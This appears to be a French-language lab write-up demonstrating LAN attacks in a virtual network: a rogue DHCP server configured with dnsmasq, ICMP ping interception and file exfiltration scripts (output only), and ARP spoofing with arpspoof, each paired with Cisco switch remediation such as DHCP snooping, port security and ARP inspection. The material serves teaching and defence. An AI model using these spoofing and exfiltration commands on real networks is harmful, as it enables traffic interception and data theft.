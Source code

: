 Setup

PC3> dhcp
DDORA IP 10.2.1.184/24 GW 10.2.1.254



PC3> ping 8.8.8.8

84 bytes from 8.8.8.8 icmp_seq=1 ttl=114 time=37.636 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=114 time=38.209 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=114 time=39.489 ms



R1#show ip int br
Interface                  IP-Address      OK? Method Status                Protocol
FastEthernet0/0            192.168.122.3   YES DHCP   up                    up  
FastEthernet1/0            10.2.1.254      YES NVRAM  up                    up  
FastEthernet1/1            unassigned      YES NVRAM  administratively down down
FastEthernet2/0            unassigned      YES NVRAM  administratively down down
FastEthernet2/1            unassigned      YES NVRAM  administratively down down
NVI0                       unassigned      NO  unset  up



PC3> ping 8.8.8.8

8.8.8.8 icmp_seq=1 timeout
84 bytes from 8.8.8.8 icmp_seq=2 ttl=114 time=36.501 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=114 time=53.740 ms



PC3> ping 10.2.1.51

84 bytes from 10.2.1.51 icmp_seq=1 ttl=64 time=8.285 ms
84 bytes from 10.2.1.51 icmp_seq=2 ttl=64 time=3.606 ms


Common network attacks


DHCP
DHCP spoofing
┌──(kali㉿kali)-[~]
└─$ cat /etc/dnsmasq.conf 
server=1.1.1.1
listen-address=127.0.0.1
listen-address=10.2.1.187
no-dhcp-interface=
no-hosts
dhcp-range=10.2.1.220,10.2.1.230,12h
dhcp-option=option:netmask,255.255.255.0
dhcp-option=option:router,10.2.1.254
dhcp-option=option:dns-server,10.2.1.12
# addn-hosts=/etc/dnsmasq.d/spoof.hosts

┌──(kali㉿kali)-[~]
└─$ 


Only Atk VM up - Legit DHCP Server Down

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         :
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

PC3> ip dhcp
DDORA IP 10.2.1.230/24 GW 10.2.1.254

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 10.2.1.230/24
GATEWAY     : 10.2.1.254
DNS         : 10.2.1.12
DHCP SERVER : 10.2.1.60
DHCP LEASE  : 43194, 43200/21600/37800
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

PC3>


Legit DHCP + Atk VM up - DHCP Spoofing

Capture : [dhcp_spoof.pcapng](dhcp_spoof.pcapng)

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         :
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

PC3> ip dhcp
DORA IP 10.2.1.230/24 GW 10.2.1.254

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 10.2.1.230/24
GATEWAY     : 10.2.1.254
DNS         : 10.2.1.12
DHCP SERVER : 10.2.1.60
DHCP LEASE  : 40418, 43200/21600/37800
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

Remédiation : 
Switch# conf t
Switch(config)# ip dhcp snooping
Switch(config)# ip dhcp snooping vlan ..
Switch(config)# interface ...
Switch(config-if)# ip dhcp snooping trust
Switch(config-if)# exit
Switch(config)# interface ...
Switch(config-if)# ip dhcp snooping untrust
Switch(config-if)# exit
Switch(config)# exit
Switch# show ip dhcp snooping

Switch# conf t
Switch(config)# interface ...
Switch(config-if)# switchport port-security
Switch(config-if)# switchport port-security maximum 2
Switch(config-if)# switchport port-security violation restrict
Switch(config-if)# switchport port-security mac-address sticky
Switch(config-if)# exit
Switch(config)# exit
Switch# show port-security


ICMP

Interception ping

┌──(root㉿kali)-[/home/kali/Desktop/Script]
└─# python icmp_basic_receiver.py
Sniffing des paquets ICMP provenant de 127.0.0.1...
Ping reçu de 127.0.0.1 avec les données : test interception
Ping reçu de 127.0.0.1 avec les données : test interception
Ping reçu de 127.0.0.1 avec les données : test interception
Ping reçu de 127.0.0.1 avec les données : test interception



Exfiltration fichier

┌──(root㉿kali)-[/home/kali/Desktop/Script]
└─# python icmp_file_exfiltr.py
Envoi du bloc 1 vers 127.0.0.1 : b'toto\n'
Exfiltration terminée
#### Interception ping

Remédiation :


ARP 
┌──(root㉿kali)-[~]
└─$ echo 1 > /proc/sys/net/ipv4/ip_forward

┌──(root㉿kali)-[~]
└─$ arpspoof -i eth0 -t 10.2.1.100 -r 10.2.1.254
ARP reply sent to 10.2.1.100 (00:11:22:33:44:55) telling it's 10.2.1.254
ARP reply sent to 10.2.1.254 (00:11:22:33:44:55) telling it's 10.2.1.100
...

PC1> sh arp

10.2.1.254  00:50:79:66:68:05
10.2.1.100  00:11:22:33:44:55

PC1> sh arp

10.2.1.254  00:11:22:33:44:55
10.2.1.100  00:11:22:33:44:55

Remédiation : 

Switch(config)# ip arp inspection vlan 1
Switch(config)# ip dhcp snooping
Switch(config)# ip dhcp snooping vlan 1
Switch(config)# exit
Switch# show ip arp inspection

